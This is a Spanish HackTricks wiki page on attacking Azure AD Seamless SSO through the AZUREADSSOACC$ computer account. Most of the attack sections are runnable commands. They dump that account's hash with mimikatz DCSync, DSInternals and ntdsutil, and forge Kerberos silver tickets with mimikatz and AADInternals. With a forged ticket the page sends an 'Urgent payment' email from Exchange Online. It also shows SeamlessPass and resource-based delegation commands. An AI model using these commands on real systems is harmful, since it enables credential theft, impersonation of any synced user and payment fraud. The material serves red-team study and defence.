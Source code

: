 # Az - SSO Sin Interrupciones

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Información Básica

[De la documentación:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory SSO Sin Interrupciones (Azure AD Seamless SSO) **inicia sesión automáticamente a los usuarios cuando están en sus dispositivos corporativos** conectados a su red corporativa. Cuando está habilitado, **los usuarios no necesitan escribir sus contraseñas para iniciar sesión en Azure AD**, y generalmente, ni siquiera escribir sus nombres de usuario. Esta función proporciona a sus usuarios un acceso fácil a sus aplicaciones basadas en la nube sin necesidad de componentes adicionales en las instalaciones.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Básicamente, Azure AD SSO Sin Interrupciones **inicia sesión a los usuarios** cuando están **en un PC unido a un dominio local**.

Es compatible tanto con [**PHS (Sincronización de Hash de Contraseña)**](phs-password-hash-sync.md) como con [**PTA (Autenticación Passthrough)**](pta-pass-through-authentication.md).

El SSO de escritorio utiliza **Kerberos** para la autenticación. Cuando se configura, Azure AD Connect crea una **cuenta de computadora llamada AZUREADSSOACC`$`** en el AD local. La contraseña de la cuenta `AZUREADSSOACC$` es **enviada como texto plano a Azure AD** durante la configuración.

Los **tickets de Kerberos** son **encriptados** usando el **NTHash (MD4)** de la contraseña y Azure AD utiliza la contraseña enviada para desencriptar los tickets.

**Azure AD** expone un **endpoint** (https://autologon.microsoftazuread-sso.com) que acepta **tickets** de Kerberos. El navegador de la máquina unida al dominio reenvía los tickets a este endpoint para SSO.

### Local -> nube

La **contraseña** del usuario **`AZUREADSSOACC$` nunca cambia**. Por lo tanto, un administrador de dominio podría comprometer el **hash de esta cuenta**, y luego usarlo para **crear tickets de plata** para conectarse a Azure con **cualquier usuario local sincronizado**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Con el hash ahora puedes **generar tickets plateados**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Para utilizar el ticket plateado, se deben ejecutar los siguientes pasos:

1. **Iniciar el Navegador:** Se debe lanzar Mozilla Firefox.
2. **Configurar el Navegador:**
* Navegar a **`about:config`**.
* Establecer la preferencia para [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) a los [valores](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) especificados:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Acceder a la Aplicación Web:**
* Visitar una aplicación web que esté integrada con el dominio AAD de la organización. Un ejemplo común es [Office 365](https://portal.office.com/).
4. **Proceso de Autenticación:**
* En la pantalla de inicio de sesión, se debe ingresar el nombre de usuario, dejando el campo de contraseña en blanco.
* Para continuar, presionar TAB o ENTER.

{% hint style="success" %}
Esto no elude MFA si está habilitado
{% endhint %}

#### Opción 2 sin dcsync - SeamlessPass

También es posible realizar este ataque **sin un ataque dcsync** para ser más sigiloso, como [se explica en esta publicación de blog](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Para eso solo necesitas uno de los siguientes:

* **Un TGT de un usuario comprometido:** Incluso si no tienes uno pero el usuario fue comprometido, puedes obtener uno utilizando el truco de delegación de TGT falso implementado en muchas herramientas como [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) y [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Golden Ticket**: Si tienes la clave KRBTGT, puedes crear el TGT que necesitas para el usuario atacado.
* **Un hash NTLM o clave AES de un usuario comprometido:** SeamlessPass se comunicará con el controlador de dominio con esta información para generar el TGT.
* **Hash NTLM o clave AES de la cuenta AZUREADSSOACC$:** Con esta información y el Identificador de Seguridad (SID) del usuario a atacar, es posible crear un ticket de servicio y autenticarte con la nube (como se realizó en el método anterior).

Finalmente, con el TGT es posible utilizar la herramienta [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) con:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Más información para configurar Firefox para trabajar con SSO sin problemas se puede [**encontrar en esta publicación de blog**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Creando tickets de Kerberos para usuarios solo en la nube~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Si los administradores de Active Directory tienen acceso a Azure AD Connect, pueden **configurar SID para cualquier usuario en la nube**. De esta manera, los **tickets** de Kerberos **también se pueden crear para usuarios solo en la nube**. El único requisito es que el SID sea un [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) adecuado.

{% hint style="danger" %}
Cambiar el SID de los usuarios administradores solo en la nube ahora está **bloqueado por Microsoft**.\
Para más información, consulte [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Nube a través de Delegación Constrainada Basada en Recursos <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Cualquiera que pueda gestionar cuentas de computadora (`AZUREADSSOACC$`) en el contenedor u OU en el que se encuentra esta cuenta, puede **configurar una delegación constrainada basada en recursos sobre la cuenta y acceder a ella**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Referencias

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Estoy en tu nube, leyendo los correos electrónicos de todos - hackeando Azure AD a través de Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}
